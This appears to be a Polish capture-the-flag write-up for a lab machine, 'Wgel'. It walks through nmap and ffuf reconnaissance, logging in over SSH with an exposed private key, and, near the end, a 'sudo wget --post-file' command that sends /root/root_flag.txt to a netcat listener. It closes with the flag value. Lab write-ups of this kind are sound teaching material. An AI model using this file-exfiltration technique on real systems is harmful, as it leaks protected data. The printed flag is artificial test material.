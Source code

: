# Wgel

IP=10.10.45.81

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.45.81
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-07 12:07 EDT
Nmap scan report for 10.10.45.81
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds
```

Zostały wykryte dwa porty.

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Strona przypomina domyślną stronę Apache'a, jednak w źródle znajdujemy ciekawą notkę z nazwą użytkownika:

![Jessie](img/Jessie.JPG)

```
jessie
```

Przechodzimy do enumeracji katalogów przy pomocy narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.45.81/FUZZ -c -recursion
```

![Ffuf](img/Ffuf.JPG)

W jednym z katalogów znajdujemy prywatny klucz RSA:

![Rsa](img/Rsa.JPG)

Widzimy, że nie jest on zaszyfrowany, dlatego nie ma potrzeby łamania hasła przy użyciu narzędzia John The Ripper:

![Key](img/Key.JPG)

### Port 22

Zapisujemy klucz w pliku, nadajemy mu odpowiednie uprawnienia i logujemy się do serwisu SSH:

![SSH](img/SSH.JPG)

Odczytujemy pierwszą flagę z pliku user_flag.txt:

![Flag1](img/Flag1.JPG)

## Zwiększenie poziomu uprawnień

Sprawdzamy jakie uprawnienia ma użytkownik jessie komendą sudo -l:

![Sudo](img/Sudo.JPG)

Próbujemy wykorzystać [exploit'a](https://gtfobins.github.io/gtfobins/wget/), aby zyskać uprawnienia root'a, jednak bezskutecznie:

![Wget](img/Wget.JPG)

Spróbujmy zatem odczytać drugą flagę bez uprawnień root'a. W tym celu przesyłamy zawartość pliku root_flag.txt na naszą maszynę za pomocą poniższych komend:

```
nc -lvnp [PORT]
```

![Nc](img/Nc.JPG)


```
sudo /usr/bin/wget --post-file=/root/root_flag.txt [IP]:[PORT]
```

![Get](img/Get.jpg)

Odczytujemy drugą flagę:

![Flag2](img/Flag2.jpg)

```
b1b968b37519ad1daa6408188649263d
```

Do zobaczenia na kolejnych CTF-ach!
